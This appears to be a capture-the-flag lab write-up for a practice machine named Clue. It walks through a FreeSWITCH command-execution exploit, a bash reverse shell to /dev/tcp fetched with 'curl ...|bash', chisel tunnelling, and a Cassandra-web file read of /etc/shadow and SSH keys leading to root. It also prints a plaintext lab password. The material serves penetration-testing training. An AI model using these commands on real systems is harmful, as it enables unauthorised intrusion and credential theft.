 Now using the exploit:
```
searchsploit -m windows/remote/47799.txt
```
Now renaming:
```
mv 47799.txt freeswitch.py
```

Now we can edit the password to the one we got from cassandra on port [[PG Practice/Clue/3000]]
![](../attachment/56176aa51d83539896773379a2135570.png)

```
python3 freeswitch.py 192.168.221.240 'whoami'
```
![](../attachment/14dfef4c3d6c3dfe92e27424d850fdba.png)
Now to get a shell:
*shell.sh:*
```
#!/bin/bash
bash -i >& /dev/tcp/192.168.45.236/80 0>&1
```
Start a python server:
```
python3 -m http.server 8021
```
Now start a listener:
```
sudo rlwrap nc -nlvp 80
```
We can get a shell:
```
python3 freeswitch.py 192.168.221.240 'curl http://192.168.45.236:8021/shell.sh|bash'
```
![](../attachment/b9cc458eef98ecb8701876d1df081b78.png)
We can switch to cassie with the creds:
```
cassie : SecondBiteTheApple330
```
Now we are cassie:
![](../attachment/6efd74a19339b8935fd187128c5c6ecd.png)

We can run cassandra-web as sudo:
![](../attachment/0da60504281b33816875be6e9945c5f0.png)

```
sudo /usr/local/bin/cassandra-web -u cassie -p SecondBiteTheApple330 -B 0.0.0.0:4444
```
Now we are running cassandra as root on port 4444.

Now we can forward the port on one more port:
```
wget http://192.168.45.228:8021/chisel
```
Now we can run chisel on kali:
```
chisel server --reverse --socks5 -p 80
```

On target:
```
chmod +x chisel
```
```
./chisel client 192.168.45.228:80 R:4444:127.0.0.1:4444
```

Now we can check by visiting 127.0.0.1:4444:
![](../attachment/65c49aade69b55a902cda82081f2bb3e.png)
Now we can use the cassandra exploit:
```
python3 cassandra.py -p 4444 127.0.0.1 /etc/shadow
```
![](../attachment/3aa7f807c24c57d354f5bae5328e2f0c.png)
We are root.

Now we can try getting anthony's ssh key:
```
python3 cassandra.py -p 4444 127.0.0.1 /home/anthony/.ssh/id_rsa
```
![](../attachment/5f1bbc8cb2788899b2b29be0588f0f1b.png)
This key does not work for anthony.
So checking anthony's history:
```
python3 cassandra.py -p 4444 127.0.0.1 /home/anthony/.bash_history
```
![](../attachment/a49d1a1a185af676d582292ffaf6a2f9.png)
We can see that anthony's public key is in root's authorized_keys:
![](../attachment/1c1b9e3e9b79c66812d2fa33eb8b494a.png)
We can login to root with the previously obtained id_rsa from anthony's folder:
```
ssh root@192.168.236.240 -i id_rsa
```
![](../attachment/96403e2447b56cd2dafff0d868dda809.png)